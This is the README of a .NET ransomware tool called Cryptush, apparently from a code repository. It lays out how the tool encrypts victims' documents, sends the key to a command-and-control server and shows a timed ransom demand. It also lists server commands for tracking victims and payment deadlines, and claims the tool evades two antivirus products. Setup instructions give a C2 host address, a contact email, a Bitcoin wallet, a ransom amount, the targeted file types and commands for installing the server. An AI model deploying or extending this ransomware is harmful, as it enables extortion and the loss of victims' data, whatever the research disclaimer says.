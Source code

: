 # Cryptush
An open-source ransomware tool written in .NET

<p align="center">
    <img src="https://i.imgur.com/zuUXyET.png">
</p>


## Disclaimer

The tools is intended for research and threat emulation purposes only. I'm not reponsible for any malicious uses of this tool.

## The Flow

    1- A symmetric AES (256bit) key is generated.

    2- Documents are collected from predefeind directories including its sub-directories.

    3- The key is encrypted with a static public RSA key and sent to the C2 server.

    4- The C2 server returns an GUID for identification and logs the details to CryptushServer.log

    5- The encryption key is then deleted from memory on the victim host and a window is presented including a decryption option and a 24 hours timer.
    

### Notes

* The ransomeware will not run in there's no communication to the C2 server. 
A reconnect attempt will be made every 30 seconds.

## Server commands

* You can view details about the encrypted victims using the "list" command (hostname, username, launch time, time left for payment, etc.).

* You can view details about the encrypted files on each victim using the "files" command.

### AV Tests

* Kaspersky - PASS
* CrowdStrike - PASS


### Dependencies

* Client - .NET Framework 4.8
* Server - .NET core 5.0


### Getting Started

* Edit the app.config file inside the Cryptush folder with your details:

    <add key="ServerIP" value="ec2-3-68-73-27.eu-central-1.compute.amazonaws.com" />
    <add key="ServerPort" value="443" />
    <add key="Email" value="yuval555@gmail.com" />
    <add key="BtcWalletAddress" value="bc1qxy2kgdygjrsqtzq2n0yrf2493p83kkfjhx0wlh" />
    <add key="BtcAmount" value="0.035" />
    
* Select the folders to be encrypted in Cryptush.cs, the default is:

```
        public static string[] paths = {
            $"{desktopDir}\\test",
        };
```

* The default extensions are:

```
            var extensions = new List<string> { ".xls", ".doc", ".ppt", ".pdf", ".txt" };

```

You can change them in Cryptush/lib/Collector.cs


### Installing the server on Linux

```
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install -y dotnet-runtime-5.0
sudo dotnet CryptushServer.dll --ip=* --port=443
```
